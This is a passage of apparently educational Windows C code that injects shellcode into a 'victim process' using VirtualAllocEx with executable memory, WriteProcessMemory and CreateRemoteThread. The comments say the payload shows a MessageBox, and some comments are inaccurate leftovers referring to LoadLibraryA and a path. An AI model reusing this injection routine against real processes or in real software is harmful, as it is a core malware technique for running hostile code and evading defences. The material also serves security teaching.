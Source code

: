 	/*
	Allocate some space inside the memory of the victim process.
	Later, it will store the shellcode for the MessageBox.
	For more information regarding the arguments of VirtualAllocEx:
	https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
	*/
	LPVOID allocatedMemory = VirtualAllocEx(
		handleVictimProcess,					// reserve a new memory page inside the victim process
		NULL,									// we don't care where to allocate the memory
		4096,									// allocate 4096 bytes, typical size of memory pages
		MEM_COMMIT | MEM_RESERVE,				// commit and reserve memory in one step
		PAGE_EXECUTE_READWRITE					// set the memory page as readable/writable
	);				

	if (allocatedMemory == NULL)
	{
		printf("[!] Call to VirtualAllocEx failed\n");
		printf("[!] Specific Win32 error: %d\n", GetLastError());

		return 1;
	}
	else
	{
		printf("[+] Successfully allocated some memory in the victim process\n");
		printf("[+] Starting address: %p\n", allocatedMemory);
	}

	/*
	Once we have allocate a memory page in the victim process, we can write our shellcode there.
	*/
	BOOL retVal = WriteProcessMemory(
		handleVictimProcess,			// handle to the process in which to the write the bytes
		allocatedMemory,				// starting address where to write the bytes
		maliciousCode,					// buffer containing the bytes to write
		sizeof(maliciousCode),			// number of bytes to write, in this case: the size of the path
		NULL							// pointer to variable which will contain the number of bytes written
										// in this case, we don't really need it
	);							
										

	if (retVal == 0)
	{
		printf("[!] Call to WriteProcessMemory failed\n");
		printf("[!] Specific Win32 error: %d\n", GetLastError());

		return 1;
	}
	else
	{
		printf("[+] Successfully wrote the malicious code in the memory page\n");
	}

	/*
	We're ready to create a new thread in the victim process, in order to
	execute the malicious code and perform the Process Injection
	*/
	HANDLE remoteThread = CreateRemoteThread(
		handleVictimProcess,								// handle to the victim process
		NULL,												// pointer to SECURITY_ATTRIBUTES struct
															// can be null if we want default security attributes
		0,													// size of the stack, 0 for default
		(LPTHREAD_START_ROUTINE)allocatedMemory,			// starting address of the thread
															// in this case, the address of LoadLibraryA
		NULL,												// pointer to a variable to be passed to the thread function
		0,													// flags to manipulate the creation of the thread
															// (e.g. start suspended)
															// in this case, 0 -&gt; start thread immediately